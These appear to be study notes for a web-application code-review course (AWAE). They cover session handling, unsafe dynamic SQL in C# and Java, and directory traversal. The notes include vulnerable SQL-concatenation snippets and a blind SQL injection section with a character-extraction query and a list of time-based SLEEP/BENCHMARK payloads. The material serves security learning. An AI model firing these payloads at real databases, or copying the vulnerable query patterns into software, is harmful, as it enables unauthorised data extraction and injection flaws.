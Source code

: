 # Discovering vulns
In AWAE there was a TON of code review and POC dev; much slower than the blind
pentest process; this can still be sped up though by keeping in mind common vulns.

Good link: https://github.com/OWASP/CheatSheetSeries.git

## Sessions, Sessions, Sessions, cookies, cookies, cookies
Common denominators on all the code exercises

- no input sanitization (generic)
- Often using Cookies or sessionIds

### C Sharp
- Request.Cookies
- Serializer : review basic xml serializer / deserializer from class

## DotNet do NOT
DO NOT: Concatenate strings anywhere in your code and execute them against your database (Known as dynamic sql).
```
string strQry = "SELECT * FROM Users WHERE UserName='" + txtUser.Text + "' AND Password='"
                + txtPassword.Text + "'";
EXEC strQry // SQL Injection vulnerability!
```

DO NOT: append user-controlled parameters to SQL queries
```
String query = "SELECT account_balance FROM user_data WHERE user_name = "
             + request.getParameter("customerName");
try {
    Statement statement = connection.createStatement( ... );
    ResultSet results = statement.executeQuery( query );
}
```
## Blind sql injection
Example: select * from table where id = 1 AND if((ascii(lower(substring((select user()),$i,1))))!=$s,1,benchmark(200000,md5(now())))

Possible parameters for $i
```
SLEEP(5)--
SELECT BENCHMARK(1000000,MD5('A'));
id=1 OR SLEEP(25)=0 LIMIT 1--
id=1) OR SLEEP(25)=0 LIMIT 1--
id=1' OR SLEEP(25)=0 LIMIT 1--
id=1') OR SLEEP(25)=0 LIMIT 1--
id=1)) OR SLEEP(25)=0 LIMIT 1--
id=SELECT SLEEP(25)--
```
# Javascript
- How are sessions handled? 
- Is there a sessionId being passed around?
- are there any file paths created out of unsanitized, user controlled variables?
i.e directory traversal?
